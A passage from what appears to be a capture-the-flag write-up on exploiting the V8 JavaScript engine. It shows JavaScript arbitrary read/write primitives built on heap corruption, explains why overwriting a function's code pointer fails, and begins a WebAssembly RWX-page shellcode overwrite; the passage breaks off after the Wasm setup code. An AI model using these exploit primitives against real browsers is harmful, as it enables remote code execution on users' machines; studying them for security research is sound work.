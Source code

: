 ```js
    bytes.reverse();
    return BigInt("0x" + bytes.join(""));
}

function setupRW(addr) {
    heapArbWrite(bufAddr + 0x24n, addr);
}

function arbRead64(addr) {
    setupRW(addr);
    return reverseBytes(bufView.getBigUint64(0));
}

function arbWrite64(addr, value, index = 0) {
    setupRW(addr);
    bufView.setBigUint64(index, BigInt(value));
}
```

## What didn't work: overriding a function's code

An old technique is getting a function (like `Math.min`) which contains a pointer to where the compiled code is, and
overwriting the pointer to a ROP chain.

![](19.png)

The function object contains a field called `code`. We can use `%DebugPrintPtr` to get more information about it:

![](20.png)

The `instruction_start` member contains a pointer to a memory region where the shellcode is (it is also disassembled below).
However, let's check the permissions of the page containing this pointer (spoiler: `v8` says `ReadOnlySpace` on the first line):

![](21.png)

So, we can no longer overwrite this field.


## What (partially) worked: WebAssembly RWX page overwrite

It worked locally, didn't work on the remote. But still an interesting approach.

WebAssembly stores the code to be executed in a RWX page. Given that we already have an arbitrary write anywhere, 
we can just replace the shellcode in that page with whatever we want.

First, we need to instantiate all objects for WebAssembly:

```js
const wasmCode = new Uint8Array([/* whatever as long as it runs; will be replaced anyway */]);
const wasmMod = new WebAssembly.Module(wasmCode);
const wasmInstance = new WebAssembly.Instance(wasmMod);
const f = wasmInstance.exports.main;
```
